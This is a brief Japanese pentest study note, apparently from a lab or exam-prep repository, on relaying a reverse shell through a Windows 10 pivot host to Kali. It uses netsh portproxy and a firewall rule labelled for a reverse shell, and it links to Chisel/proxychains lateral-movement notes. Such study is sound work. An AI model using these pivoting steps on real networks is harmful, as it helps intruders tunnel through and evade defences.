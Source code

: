 * ポートフォワード設定(win10 clientで実施)

```cmd
netsh interface portproxy add v4tov4 listenport=4444 listenaddress=0.0.0.0 connectport=1234 connectaddress=192.168.119.179
```

* 確認

  ```
  netstat -ano | findstr :4444
  ```

* ファイアウォールの設定(win10 clientで実施)

  ```cmd
  netsh advfirewall firewall add rule name="forwarded_revshell_4444" protocol=TCP dir=out localip=0.0.0.0 localport=1234 action=allow
  ```

* 確認

  ```
  netsh interface portproxy show all
  ```

  ![image-20230114080851422](img/PortRedirectionAndTunneling/image-20230114080851422.png)

* kaliで受信

  ![image-20230114080908959](img/PortRedirectionAndTunneling/image-20230114080908959.png)

参考サイト：https://woshub.com/port-forwarding-in-windows/



### Chisel(proxychain)

[Chisel -proxychain](./ActiveDirectory/ActiveDirectory_lateralmove.md/#Chiselを使ったproxychainsの構築(内部サーバーにnmapやpass the hashするとき))
